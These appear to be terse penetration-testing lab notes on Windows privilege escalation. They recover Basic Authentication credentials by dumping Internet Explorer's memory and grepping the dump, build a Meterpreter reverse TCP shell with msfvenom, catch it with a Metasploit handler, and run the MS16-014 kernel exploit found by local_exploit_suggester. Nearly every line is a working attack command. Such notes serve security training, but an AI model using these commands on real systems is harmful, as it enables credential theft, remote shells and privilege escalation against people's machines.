 ## RDP Session

Open IE and go to http://<IP>/x
Open cmd and type `taskmgr`
Select `iexplore.exe` and right click `Create Dump File`
Move `iexplore.DMP` in Ubuntu and run strings iexplore.DMP | grep "Authorization: Basic"

# Privilege Escalation - Kernel Exploits

## Establishing shell

use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0

## Create payload

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=tun0 lport=4444 -f exe > shell.exe
Pass it to the Windows machine and run it

We have a shell!! Now background it.

## Detection and Exploitation

> run post/multi/recon/local_exploit_suggester

Suggests us `exploit/windows/local/ms16_014_wmi_recv_notif`

> use exploit exploit/windows/local/ms16_014_wmi_recv_notif
> set lport 1234
> set lhost tun0
> run
